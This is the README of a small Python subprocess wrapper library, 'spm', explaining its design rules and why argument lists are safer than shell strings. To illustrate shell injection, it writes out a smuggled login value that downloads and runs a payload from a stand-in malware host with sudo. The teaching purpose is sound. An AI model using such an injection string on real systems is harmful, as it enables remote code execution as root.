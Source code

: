 spm (SubProcessesManager)
=========================

.. code:: python

    >>> import spm
    >>> spm.run('echo', '-n', 'hello world').stdout.read()
    'hello world'
    >>> import functools
    >>> git = functools.partial(spm.run, 'git')
    >>> git('status', '-z').stdout.read().split(b'\x00')
    [' M spm.py', '']

This provides a very thin KISS layer on top of the python standard library's
``subprocess`` module. This library supports Python 2 and Python 3.

This makes it easy to pipe subprocesses, and pipe subprocesses input/output
to files.

It only has four rules:

* Simple programming interface
* Don't reimplement the wheel. (It tries uses the ``subprocess`` standard
  module as much as possible) 
* It only does one thing, and try to do it well.
* Use argument list instead of one command string.

Secure subprocess invokation
----------------------------

For those who don't understand the last rule. There are two ways to ways to
invoke subprocesses in python: One method is insecure, the other one is
secure.

.. code:: python

    import subprocess

    # Insecure subprocess invocation
    subprocess.check_call("echo foo", shell=True)
    # Secure subprocess invocation
    subprocess.check_call(['echo', 'foo'])

The second one is secure, because it prevents shell code injection. If we over
simplify, the first method, could be implemented this way:

.. code:: python

    def insecure_check_call(command_line):
        """
        Same as check_call(shell=True)
        """
        # Runs /bin/bash -c "the given command line"
        subprocess.check_call(['/bin/bash', '-c', command_line])


Let's use the following code as example:

.. code:: python

    import subprocess
    # Get insecure and unchecked data from a user
    from somewhere import get_login_from_user()

    def create_user():
        cmd = "sudo useradd '{}'".format(get_login_from_user())
        subprocess.check_call(cmd)

A user can inject code if they enter the login
``' || wget http://malware.example.com/malware -O /tmp && sudo /tmp/malware``.
Because this will execute:
``sudo user '' || wget [...] -O /tmp && sudo /tmp/malware``.

Why another library?
--------------------

.. image:: https://imgs.xkcd.com/comics/standards.png
   :alt: XKCD Comic strip: "How Standards Profilef
   :align: center

Here are the existing libraries:

* sh_: doing to much. The programming interface for piping commands is
  complex and bad.
* execute_: old, vulnerable to shell injection.

And many other are unmaintained or worse.

.. _sh: https://amoffat.github.io/sh/
.. _execute: https://pythonhosted.org/execute/


What do you mean by KISS?
-------------------------

KISS lost it original sense. Now it's just an hipster word which means "just
use my library because it's cool".

Here I mean KISS in its original sense: Keep It Simple and Stupid.

* Simple: this library is one file with less than 500 lines (excluding testing)
* Stupid: this library has two functions: ``pipe()`` and ``run()``
